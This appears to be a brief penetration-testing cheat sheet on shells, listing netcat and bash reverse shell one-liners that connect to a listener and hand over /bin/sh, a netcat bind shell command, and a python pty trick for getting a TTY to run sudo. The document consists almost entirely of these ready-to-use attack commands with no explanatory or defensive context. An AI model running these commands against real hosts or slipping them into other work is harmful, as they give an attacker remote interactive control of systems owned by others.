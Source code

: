 # Shells

## Reverse shell

| tool           | local                 |      | remote                         |
|----------------|-----------------------|------|--------------------------------|
| netcat         | nc -lvp 4444          |  <-  | nc 192.168.1.1 4444 -e /bin/sh |
| netcat <br> sh | nc -lvp 4444          |  <-  | bash -i >& /dev/tcp/10.0.0.1/4444 0>&1 |

## Bind shell

| tool   | local                 |      | remote                         |
|--------|-----------------------|------|--------------------------------|
| netcat | nc 192.168.1.2 4444   |  ->  | nc -lvp 4444 -e /bin/sh        |


### sudo: sorry, you must have a tty to run sudo

`python -c 'import pty;pty.spawn("/bin/bash")'`